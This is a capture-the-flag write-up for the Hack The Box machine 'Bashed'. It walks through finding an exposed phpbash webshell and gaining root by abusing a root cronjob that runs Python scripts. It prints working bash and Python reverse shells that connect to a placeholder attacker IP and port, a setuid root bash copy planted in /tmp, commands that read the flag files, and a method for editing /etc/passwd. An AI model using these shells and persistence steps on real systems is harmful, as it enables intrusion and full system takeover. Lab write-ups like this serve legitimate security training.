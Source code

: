 # Bashed

## Reconnaissance:
***
### Open Ports: 

- 80 - Apache httpd 2.4.18
***

## Enumeration:

***
80 : Blog page giving hint ---> *phpbash helps a lot with pentesting. I have tested it on multiple different servers and it was very useful. I actually developed it on this exact server!*

view-page-source : github link --> https://github.com/Arrexel/phpbash

gobuster : 10.10.10.68

- /uploads/
- /php/
- /css/
- /dev/ --> Interesting

http://10.10.10.68/dev/ : 2 php files: phpbash.min.php, phpbash.php

http://10.10.10.68/dev/phpbash.min.php : webshell

id: www-data --> this shell to our terminal

```bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```

***
## Privileges Escalation

***
**LinEnum** : Look for important & juicy files.

***

2 users: scriptmanager, arrexel
scriptmanager : no password required

```bash
sudo -u scriptmanager
```

again run LinEnum : no juicy information

* start with `/`

interesting directory : /scripts/ --> 2 files: 
> test.py - scriptmanager
> test.txt - root

* on reading both the files it was observed that `test.py` was running inside a `cronjob` .
* Meaning, the file was getting executed as a root. Files inside `/scripts` are running by cronjob.
* Thus, we can create our own python file and execute commands by root

> #### Method 1:

python file : for root flag

```python
#!/usr/bin/python
import os
os.system('cat /root/root.txt >> /tmp/a');
```

python file : for user flag

```python
#!/usr/bin/python
import os
os.system('cat /home/arrexel/user.txt >> /tmp/b');
```

> #### Method 2:

reverse shell: with netcat (nc -nvlp PORT)

```python
#!/usr/bin/python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

> #### Method 3:

```python
#!/usr/bin/python
import os
os.system('cp /bin/bash /tmp/j33n1 && chown root:root /tmp/j33n1 && chmod 4755 /tmp/j33n1');
```

> #### Method 4:

 From j33n1 root give write perrmission to `/etc/passwd/` and add your current username and password(`/etc/shadow'`) to the file.
 
***

# Resources: 
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

----------------------------------------------------------------------------------------------------



 
